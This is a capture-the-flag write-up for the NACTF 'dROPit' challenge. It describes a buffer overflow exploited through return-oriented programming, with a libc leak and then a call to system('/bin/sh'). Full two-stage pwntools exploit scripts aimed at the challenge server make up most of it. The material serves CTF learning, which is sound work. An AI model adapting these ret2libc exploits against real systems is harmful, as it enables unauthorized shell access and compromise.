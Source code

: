 ## NACTF: dROPit [pwn]
> description to be added later

#### This was a ROP challenge as hinted by the capitalized letters in the challenge name. Simply, we have a buffer overflow vulnerability again to which we will need to leak libc addresses in order to determine the libc version used and pop a shell. I have done a lot of similar writeups to this one which can be found on the website, so I won't go into detail with this (only a rundown of what I did).

## Controlling RIP, ROPgadgets
#### To find which offset I can use to control the instruction pointer, I played around the binary with pwndbg. After confirming the offset at which we can control it, the next plan is to find ROP gadgets that we will use for the leak.
```
$ ROPgadgets --binary ./dropit > gadgets.txt
```
#### Redirect the output into a text file for better view. The gadgets we are interested in are `pop rdi` (for placing arguments into the rdi register) and `ret` (for stack alignment). For this challenge, I decided to leak fgets and puts, provided the leaked values into `libc.rip` (a more updated version compared to libc.blukat.me imo, since the latter didn't find the libc version for the input I provided). Code below is the stage 1 exploit.
```python
from pwn import *

#:
p = remote('challenges.ctfd.io', 30261)
#p = process('./dropit')
binary = ELF('dropit', checksec = False)

#:
ret = 0x40101a
pop_rdi = 0x401203

exploit = cyclic(56)
exploit += p64(ret)
exploit += p64(pop_rdi)
exploit += p64(binary.got['fgets'])
exploit += p64(binary.symbols['puts'])
exploit += p64(binary.symbols['main'])

print(p.recvuntil('?\n'))
p.sendline(exploit)
leak = int(hex(u64(p.recvuntil('\n').ljust(8, '\x00')))[3:], 16)
print('[*] fgets leak: {}'.format(hex(leak)))
```

## Popping a shell
#### We have identified the libc version that the remote server is running, next step is to download a copy of the libc to use for our second stage. We simply calculate the libc base by subtracting the value leaked from the server with the offset of fgets in the libc. Afterwhich, we can simply perform a call to system providing /bin/sh as its argument. The call to exit isn't really necessary, just a force of habit.
```python
#: Stage 2
libc = ELF('libc6_2.32-0ubuntu3_amd64.so', checksec = False)
libc.address = leak - libc.symbols['fgets']
print('[*] libc base: {}'.format(hex(libc.address)))

exploit = cyclic(56)
exploit += p64(pop_rdi)
exploit += p64(libc.search('/bin/sh').next())
exploit += p64(libc.symbols['system'])
exploit += p64(libc.symbols['exit'])

p.sendline(exploit)
p.interactive()
```
![](dropit_shell.png)
